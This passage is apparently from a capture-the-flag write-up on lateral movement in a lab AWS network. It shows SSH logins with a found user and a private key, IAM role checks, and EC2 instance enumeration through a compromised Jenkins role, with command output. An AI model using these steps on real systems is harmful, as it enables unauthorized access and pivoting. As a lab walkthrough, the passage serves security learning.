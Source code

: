 # Lateral movement

From this point we have enough information to try getting in other machines. We have

 - a low privilege reverse shell + an IAM role
 - SSH to a machine with immediate root access + an user password + a private key

Using the different users found earlier, we can get another type of access to the Jenkins host

```bash
$ ssh pauloc@203.0.113.1
Last login: Fri Dec 16 20:36:19 2022 from 203.0.113.2
pauloc@ip-10-80-36-98:~$
```

And privileged access to other machines:

```
From jenkins:
Bastion: ssh -i ./ctf-prod-key.pem ubuntu@10.80.39.166
Payment: ssh -i ./ctf-prod-key.pem ec2-user@10.80.39.171
```

Let's use Jenkins role for further exploration. As a reminder, this is the role

```bash
$ aws sts get-caller-identity
{
    "UserId": "AROA[...]J:i-abcdef",
    "Account": "12345678910",
    "Arn": "arn:aws:sts::12345678910:assumed-role/JenkinsServiceRole-ee31f43/i-abcdef"
}
```

It allows to list EC2 instances

```bash
$ aws ec2 describe-instances | jq '.Reservations[].Instances[] | {"IP": .PrivateIpAddress, "Name": (.Tags[]|select(.Key=="Name")|.Value)}'
{
  "IP": "10.80.36.98",
  "Name": "jenkins-buildserver-ee31f43"
}
{
  "IP": "10.80.36.81",
  "Name": "jenkins-buildworker-ee31f43"
}
{
  "IP": "10.80.39.171",
  "Name": "payments-server-ee31f43"
}
{
  "IP": "10.80.39.166",
  "Name": "dev-bastion-ee31f43"
}
```
